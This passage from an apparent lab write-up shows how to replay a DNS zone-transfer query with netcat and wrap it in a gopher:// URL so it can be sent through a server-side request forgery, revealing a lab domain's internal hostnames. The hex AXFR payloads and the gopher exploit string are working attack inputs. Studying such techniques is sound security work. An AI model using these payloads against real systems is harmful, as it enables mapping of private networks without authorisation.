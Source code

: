 
We will replay this query using `netcat` on port 53 (TCP). This works because the DNS server from `ssrf_dns.py` is listening on both UDP and TCP.

```ps1
echo 0034a9c100200001000000000001076578616d706c65036c61620000fc000100002904d000000000000c000a0008180f72afca818649 | xxd -r -p | nc 127.0.0.1 53
```

But we can shorten this payload by removing the `Additional records`, change `01` to `00` in the correct part of the header.
Don't forget to change the length in the header section.


```ps1
# Payload: 00[LENGTH]a9c1002000010000000000[ADDITIONAL_RECORD]076578616d706c65036c61620000fc0001 
echo 001da9c100200001000000000000076578616d706c65036c61620000fc0001 | xxd -r -p | nc 127.0.0.1 53
```

![](/images/SSRFmapAXFR/out-xfr-answer.png)


Finally, the server answers with 4 subdomains on `example.lab`. 

```ps1
frontend.example.lab.   0       IN      A       10.10.10.10
backend.example.lab.    0       IN      A       10.10.10.11
secret_flag.example.lab. 0      IN      A       10.10.10.12
test.example.lab.       0       IN      A       10.10.10.12
```

## Gopher Protocol

Now the next step is to transform this request to be able to send it through an SSRF. For this, we will use the gopher protocol.

> The Gopher protocol (/ˈɡoʊfər/) is a communication protocol designed for distributing, searching, and retrieving documents in Internet Protocol networks. - Wikipedia

It is very easy to use this protocol with the gopher scheme: `gopher://IP:PORT/_DATA`.

In theory, the payload should be as follow: `gopher://127.0.0.1:53/_%00%1d%a9%c1%00%20%00%01%00%00%00%00%00%00%07%65%78%61%6d%70%6c%65%03%6c%61%62%00%00%fc%00%01`. The final exploit requires an URL encoding.
